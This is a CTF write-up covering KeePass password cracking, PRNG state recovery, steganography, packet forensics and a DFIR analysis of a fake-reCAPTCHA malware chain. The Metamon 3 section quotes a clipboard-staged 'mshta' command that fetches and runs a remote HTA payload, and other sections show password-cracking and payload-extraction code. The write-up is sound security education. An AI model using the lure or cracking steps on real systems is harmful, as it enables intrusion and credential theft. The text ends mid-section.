UMCS CTF UM 2026
8th preliminary · AD finalist · 10th final
Team: Humblebee
Ha1qal, Kiellu4, riezq, siseven

Note: Published after the competition ended.
Crypto
Crypto · 50The Hexed Protocol
Challenge
The challenge supplied scraps.md, an internal HR memo describing the 2025 Password Matrix, and vault_dump.txt, a hexadecimal dump from a corporate infrastructure vault. The goal was to rebuild the dumped file, use the policy as a password clue, unlock the vault, and retrieve the flag stored inside.
First look / analysis
I started with the dump instead of guessing passwords, because a hex-encoded blob can reveal its actual format after conversion. The challenge page also explicitly tied the data dump to the HR policy, so I treated the policy as a constrained wordlist recipe rather than attempting a generic brute-force attack.
Identify the supplied files
I first reviewed the challenge page and the two downloads. The stated mission was to reconstruct the vault and use the HR policy as a guide, which established that scraps.md was likely needed to derive the password rather than merely being background text.

The challenge provides the HR memo and the obfuscated vault dump; the mission explicitly connects the two files. Convert the hexadecimal dump and identify its format
I converted vault_dump.txt back into bytes, then checked the resulting file type. This was the quickest way to determine what kind of data the password would protect. The converted file was identified as a KeePass database (KDBX), so I could use the normal KeePass hash-recovery workflow.
bash
cat vault_dump.txt | xxd -r -p > vault.bin file vault.binBuild a password-policy wordlist
I read scraps.md closely and used its policy words — Synergy, Disruption, Pivot, Agility, and Paradigm — as the fixed word portion of each candidate. The policy also described a four-digit PIN and a special character, so I generated every combination in that pattern instead of using an unrelated generic list.
This was deliberate: the source described the corporate policy as the important clue. Constraining the candidates to its structure made the attack reproducible and much smaller than trying arbitrary password combinations.
python
values = ["Synergy", "Disruption", "Pivot", "Agility", "Paradigm"] specials = "!@#$%^&*()-_=+[{]};:'\",<.>/?~`|" with open("passlist.txt", "w") as f: for value in values: for pin in range(10000): for special in specials: f.write(f"{value}{pin:04d}{special}\n")Extract and crack the KeePass hash
With a KDBX file and a policy-shaped wordlist, I extracted the database hash with keepass2john and passed it to John the Ripper. John recovered the master password as Paradigm4092@, matching the pattern derived from the memo.
bash
keepass2john vault.bin > vault.hash john --wordlist=passlist.txt vault.hashOpen the vault and read the stored note
I opened the recovered database with kpcli using the cracked password. After listing Root/, I found the Master Infrastructure entry and displayed its fields. Its Notes field contained the flag.
The published terminal image is cropped above the prompt so it does not expose the local machine username, hostname, or filesystem path visible in the original screenshot.
bash
kpcli --kdb vault.bin cd Root/ show -f 0
After opening Root / Master Infrastructure, the Notes field reveals the recovered flag.
Result
The policy-based wordlist recovered the KeePass master password, and the Master Infrastructure note in the unlocked vault displayed the flag.
Flag
UMCS{m4sk_4tt4cks_b34t_brut3_f0rc3}Tools used: xxd, file, Python, keepass2john, John the Ripper, kpcli. What I learned: A password policy can be an operationally useful attack constraint when it is exposed alongside protected data. Identifying the file format first kept the solve focused on the correct hash and vault tools instead of guessing at the dump format.
Crypto · 50Makmal Buta, UM
Challenge
A Braille message, a corrupted Python file, and output.txt containing 637 hexadecimal log IDs were provided. The translated message says an old script generated the IDs and that the last values stopped appearing; the objective was to reconstruct the missing output.
First look / analysis
The damaged code still showed a missing submit-style operation before XORing predicted values with encrypted IDs. That pointed to MT19937 state recovery: 624 consecutive 32-bit outputs are sufficient to reconstruct its state, and the file had 637 IDs.
Translate the message and identify the PRNG clue
I read the Braille message first because it describes the recovered script and the stalled IDs. I then inspected the leaked logic and recognised the state-prediction pattern instead of treating the hex strings as a static cipher.

The challenge supplies the Braille message that frames the recovered-log investigation. Recover the MT19937 state
I extracted every 32-bit ID from output.txt. I used the first 624 outputs to reverse MT19937 tempering, then cloned the generator so it could predict the remaining values.
python
ids = [int(x, 16) for x in re.findall(r'ID: (0x[0-9a-fA-F]{8})', data)] state = [untemper(value) for value in ids[:624]] rng = MT19937Clone(state)
The tempering transformation is reversible, which is why the observed outputs can recover the generator state. XOR predicted values with the encrypted tail
For each ID after the recovered state, I predicted the next generator output and XORed it with the encrypted value. The resulting characters assembled the flag.
python
out = [] for encrypted in ids[624:]: out.append(chr(encrypted ^ rng.getrandbits32())) print(''.join(out))
The solver prints the predicted XOR values and the completed flag; the original local prompt has been cropped out.
Result
The cloned PRNG predicted the remaining stream values, and XORing them with the encrypted IDs recovered the flag.
Flag
UMCS{NMBRXD3}Tools used: Python, regular expressions, MT19937 analysis. What I learned: MT19937 is not a cryptographic generator. Capturing 624 consecutive 32-bit outputs permits state recovery and prediction of later outputs.
Crypto · 50Ghost in the Radio
Challenge
The challenge supplied corrupted.bin and said the original format was PNG. Its hint asks solvers to XOR the first four bytes with the standard PNG magic bytes and notice the drift in the resulting keys.
First look / analysis
I checked the binary type and compared its leading bytes with a PNG signature. Because the key was described as rolling, the first two derived key bytes were enough to calculate the constant increment.
Use the PNG header as known plaintext
I treated the PNG magic bytes as known plaintext and XORed them against the corrupted first bytes. This produced the first rolling-key values rather than a single static key.
python
k0 = ciphertext[0] ^ 0x89 k1 = ciphertext[1] ^ 0x50 drift = (k1 - k0) % 256
The hint directs the initial comparison with the PNG magic bytes. 
The source shows the first two derived key values used to determine the drift. 
Each key byte is the initial key plus the constant drift multiplied by its position. Decrypt every byte and write the image
I applied the evolving key across the full ciphertext and wrote the plaintext to recovered_flag.png. The recovered image displayed the flag.
python
plaintext = bytearray() for i, value in enumerate(ciphertext): plaintext.append(value ^ ((k0 + i * drift) % 256)) open('recovered_flag.png', 'wb').write(plaintext)
The reconstructed image shows the final flag; the source terminal prompt was removed by cropping.
Result
The rolling XOR calculation reconstructed a valid PNG containing the flag.
Flag
UMCS{XOR_M4G1C_BYT3S}Tools used: file, Python. What I learned: Known signatures can reveal the starting state of a custom stream transformation. A changing key can still be recovered when its update rule is predictable.
Crypto · 50Phanton Anthem of DTC
Challenge
DTC_Midnight.wav is presented as a proud but flawed anthem from Dewan Tunku Canselor. The challenge wording says true silence occurs when opposites collide, indicating a stereo-channel cancellation technique.
First look / analysis
I used soxi to confirm that the WAV was stereo. That made left-minus-right subtraction a justified first test, because a phase-hidden signal can survive when common audio is cancelled.
Inspect and subtract the stereo channels
I checked the audio format, then read its frames as signed 16-bit stereo samples. Subtracting the right channel from the left produced a mono signal that isolated the hidden beeps.
bash
soxi DTC_Midnight.wavpython
samples = np.frombuffer(raw, dtype='<i2').reshape(-1, 2) hidden = (samples[:, 0] - samples[:, 1]).astype('<i2')
The challenge wording points to cancellation of opposing stereo channels. Decode the hidden Morse and Vigenère text
I saved the channel-difference signal and decoded its beep pattern as LUYKB BFZEJNHPKEXGNTOTH IUYCO. I then tested a Vigenère cipher because the source identified it as the likely cipher, using TUNKU from the Dewan Tunku Canselor reference as the key.

The isolated audio yields the ciphertext that is then decrypted with the DTC-derived key. Remove the deliberate misleading words
The Vigenère result was SALAH ILMUPUNCAKEMAJUAN PALSU. The source identifies SALAH and PALSU as decoys, leaving ILMU PUNCA KEMAJUAN; I formatted those words as instructed.
Result
Phase cancellation revealed Morse, and the DTC clue supplied the Vigenère key that produced the phrase for the flag.
Flag
UMCS{ILMU_PUNCA_KEMAJUAN}Tools used: soxi, Python, NumPy, Morse decoder, Vigenère analysis. What I learned: Stereo subtraction can isolate phase-opposed data. Contextual location clues can supply a cipher key when the recovered text is still unreadable.
CryptoAcoustic Strings
Challenge
The source describes a spectrogram challenge with a coordinate set and the hint “One set of coordinates, two distinct fates.” The solve extracts a hidden image payload from the visual data.
First look / analysis
The source first tried a manual fretboard-coordinate interpretation; it was useful context but ultimately a rabbit hole. The stated product-sum clue gave the correct starting offset, 65, and later pixel observations supplied the extraction path.
Read the spectrogram coordinates
I recorded the coordinate set shown in the spectrogram and calculated the sum of their products. The source says this gives the starting offset 65, which became the initial position for extraction.

The spectrogram presents the coordinate sequence used by the solve. Document the discarded fretboard approach
I manually mapped fret and string intersections, but the source records this as a rabbit hole rather than the final method. I kept that observation in mind and pivoted after finding the red marker and a blue pixel in the image.

The red marker is one of the image observations used to redirect the solve. 
The blue pixel confirms that colour values, rather than only fret coordinates, matter to the extraction. Run the image extraction helper
Using the source helper, I read the image at the derived offset and followed the reported trace values until the reconstructed message printed the flag.

The helper output shows the derived start offset and recovered flag.
Result
The offset and image-colour extraction path recovered the final message.
Flag
UMCS{S0UND_4ND_1M4G3_M4G1C}Tools used: Spectrogram viewer, image analysis, Python. What I learned: A plausible visual interpretation can still be a dead end. Combining explicit hint arithmetic with pixel evidence gave a reproducible extraction direction.
Forensics
Forensics · 50Packet_Puzzle
Challenge
The supplied Packet_Puzzle.pcap contained a large amount of decoy traffic. The useful data was carried in TCP payloads to ports 4444, 4445, and 4446; after reconstruction, the goal was to repair the resulting image and read the flag.
First look / analysis
I filtered the capture by the three destination ports because the source identified them as the signal amid decoy traffic. Their payloads resembled Base64, so I kept their order rather than decoding packets individually.
Isolate the signal traffic
I filtered TCP traffic for destination ports 4444, 4445, and 4446. This removed the decoys and left the payload fragments that the source associates with the hidden data.
wireshark filter
tcp.dstport == 4444 || tcp.dstport == 4445 || tcp.dstport == 4446
The supplied packet capture is the starting point for the reconstruction. Join and decode payloads
I concatenated payloads in port order — 4444, then 4445, then 4446 — and Base64-decoded the joined stream. The result was a PNG-like byte sequence, but its signature and chunk names were deliberately damaged.
python
combined = b''.join(b''.join(payloads[p]) for p in [4444, 4445, 4446]) raw = bytearray(base64.b64decode(combined))Repair the PNG structure
I restored the eight-byte PNG signature, changed IHDU back to IHDR, and changed the last IENU marker back to IEND. I then recalculated each PNG chunk CRC, because changing chunk names invalidates the original checksums.
python
raw[0:8] = b'\x89PNG\r\n\x1a\n' raw[12:16] = b'IHDR' raw[raw.rfind(b'IENU'):raw.rfind(b'IENU') + 4] = b'IEND' # recompute each chunk CRC before writing fixed.pngRead the repaired output
The repaired PNG displayed the flag across the image. This confirmed that the ordered payload reconstruction and CRC repair were both correct.

The repaired image displays the complete flag across two corners.
Result
Joining the selected TCP payloads in port order, decoding them, and repairing the PNG produced a readable flag image.
Flag
umcs{wireshark_never_lies}Tools used: Wireshark, Python, Base64, PNG CRC handling. What I learned: A packet capture can conceal a file across apparently unrelated TCP payloads. File repair requires more than restoring a magic value: structural fields and integrity checks also matter.
Forensics · 50The Winning Shot
Challenge
The challenge supplied a JPEG named pool, a Linux ELF named winning_shot, and a core dump named core.170390. The source notes that the image had encrypted data appended and that the runtime dump preserved the XOR key needed to decrypt it.
First look / analysis
I began with strings because the challenge hint emphasised Linux, the executable, and the core dump. Searching identified WINSHOT in the image and CUE_BALL_STATE_V1 in the core, which gave concrete markers instead of relying on file-size guesses.
Locate the markers
I searched the executable, core dump, and JPEG for readable markers. WINSHOT marked the appended ciphertext in pool, while CUE_BALL_STATE_V1 located the relevant state in the core dump.
bash
strings -a winning_shot | less strings -a core.170390 | grep -i CUE strings -a pool | grep -i WIN
The challenge files are the pool image, ELF executable, and core dump. Derive the XOR inputs
The source records the encrypted flag at offset 0x12f1 with length 45, and the key marker at 0x36e8. The 60-byte key begins at 0x3708, so the plaintext relationship is ciphertext byte XOR key byte modulo the key length.
python
ciphertext = pool[pool.rfind(b'WINSHOT') + len(b'WINSHOT'):] key = core[core.find(b'CUE_BALL_STATE_V1') + 0x20:][:60] plaintext = bytes(c ^ key[i % len(key)] for i, c in enumerate(ciphertext))Validate the decrypted flag
I searched the decrypted bytes for the UMCS flag format. The extracted text matched the expected flag syntax, confirming the marker offsets and repeating-key XOR operation.
python
match = re.search(rb'UMCS\{[^}]+\}', plaintext) print(match.group().decode())
Result
The appended image data decrypted with the key recovered from the core dump and yielded the flag.
Flag
UMCS{k1n3t1c_3n3rgy_r3c0v3r3d_fr0m_c0r3_dump}Tools used: strings, Python, regular expressions. What I learned: Core dumps preserve runtime state that can be security-sensitive. File append data and memory artifacts can be correlated through marker strings and offsets.
DFIR
DFIRMetamon 1
Challenge
The first artifact is README.txt dropped on Ahmad's Desktop.
First look / analysis
The C2 log records the exact echo command that created the note, including a Base64 string.
Read the creation command
I inspected the recorded echo command because it preserves the complete dropped-note content.
text
VU1DU3szel9mMXJzN19nbGFmXzR0X3I0bnNvbV9uMFQzfQ==Decode the embedded value
Decoding the Base64 text recovered the flag from the ransom note.
Result
The dropped note itself contained an encoded flag.
Flag
UMCS{3z_f1rs7_glaf_4t_r4nsom_n0T3}Tools used: Base64 decoder. What I learned: Dropped-note creation telemetry can preserve indicators and embedded data even when the file is unavailable.
DFIRMetamon 2
Challenge
The relevant browser artifact is Edge's History SQLite database.
First look / analysis
I queried the urls table because browser history can identify the first malicious site in an execution chain.
Inspect Edge history
The History database showed a 2026-04-19 entry titled reCAPTCHA Verification at pinarat.github.io/a/. Its fake branding made it the suspicious pivot.
sql
SELECT last_visit_time, title, url FROM urls;
Result
The history record identified the fake verification page.
Flag
UMCS{https://pinarat.github.io/a/}Tools used: SQLite browser. What I learned: Browser-history artifacts can establish the initial delivery URL and timeline.
DFIRMetamon 3
Challenge
The fake reCAPTCHA page instructed the victim to press Windows+R, Ctrl+V, and Enter.
First look / analysis
I inspected the page JavaScript because clipboard-based social engineering hides the actual command from the visible instructions.
Recover the clipboard command
The script staged mshta https://pinarat.github.io/a/b.mp4. Although named as media, b.mp4 was an HTA payload that downloaded rizzler.bat.
javascript
const commandToRun = `mshta https://pinarat.github.io/a/b.mp4`; stageClipboard(commandToRun, verification_id);Read the batch stage
The batch file wrote a registry value containing the flag. The registry command itself is intentionally described rather than reproduced because the source formatting makes its Windows backslashes ambiguous.
Result
The clipboard chain led to the HTA and then the registry-stored flag.
Flag
UMCS{Ra-T4-TA-Ta_BU7_1_doN7_w4nT_tO}Tools used: JavaScript review, Windows registry analysis. What I learned: Fake verification pages can turn user interaction into command execution through clipboard staging.
DFIRMetamon 4
Challenge
profile.png was downloaded by the batch stage and contained an embedded payload in RGB pixels.
First look / analysis
The source states the first two pixels encode a payload length; subsequent RGB bytes are XORed then gzip-compressed.
Extract image payload bytes
I read the size from pixels (0,0) and (1,0), then consumed RGB channels from pixel index 2 until that size was reached. The decoded PowerShell contained the literal UMCS string and wrote Ditto.exe for the next stage.
python
size = (p0[0] << 24) | (p0[1] << 16) | (p0[2] << 8) | p1[0] xored = bytes(c ^ KEY[i % len(KEY)] for i, c in enumerate(buf)) text = gzip.decompress(xored).decode('utf-8', errors='replace')
Result
The RGB payload decoded to PowerShell containing the flag.
Flag
UMCS{STay_1N_7hE_M1dDLe,l1kE_Y0U_A_LiTlLE,DONt_Want_NO_RidD1E}Tools used: Python, Pillow, gzip. What I learned: Images can carry staged content in raw pixel channels; the length prefix defines exactly how much data to extract.
DFIRMetamon 5
Challenge
Ditto.exe was a PyInstaller-packed, PyArmor-obfuscated Python Discord RAT recovered from the prior stage.
First look / analysis
Static analysis identified the C2 configuration and its #cybershit channel.
Inspect the packed RAT and C2 history
I recorded the PyInstaller and PyArmor indicators, then used the documented C2 channel history to recover the encoded message. The source collector requires a bot token, so no token-bearing script is published.
Result
C2 channel history supplied the encoded message and flag.
Flag
UMCS{Me7amoN_t4p4u3d_8y_y0u_}Tools used: PyInstaller analysis, PyArmor analysis, Discord artifact review. What I learned: Malware configuration can reveal C2 infrastructure even when code is obfuscated. Tokens are sensitive credentials and must not be republished.
DFIRMetamon 6
Challenge
The C2 logs recorded the 7-Zip command that created LOCKED.7z and its password.
First look / analysis
I used the recorded command because it directly supplies the archive password and the locked file path.
Extract the archive
I used the logged password with 7z to extract LOCKED.7z. important.txt showed that the fictional victim reused one value across accounts.
bash
7z x LOCKED.7z -p'GcJqVl9YaVwBIPC4nbOW' -ounlocked
Result
The extracted note identified the reused value that is also the challenge flag.
Flag
UMCS{6qJYhcRT14pgGFJCNPD9}Tools used: 7-Zip. What I learned: C2 logs can expose both encryption parameters and evidence of credential reuse.
DFIRMetamon 7
Challenge
The final challenge asks for the hashes of the dropped batch artifact, profile image, and Ditto.exe.
First look / analysis
I located each artifact by filename and calculated SHA-256 hashes in the requested order.
Locate and hash the three artifacts
I used find to identify the two possible batch filenames, profile.png, and Ditto.exe, then combined the three SHA-256 values into the flag format.
bash
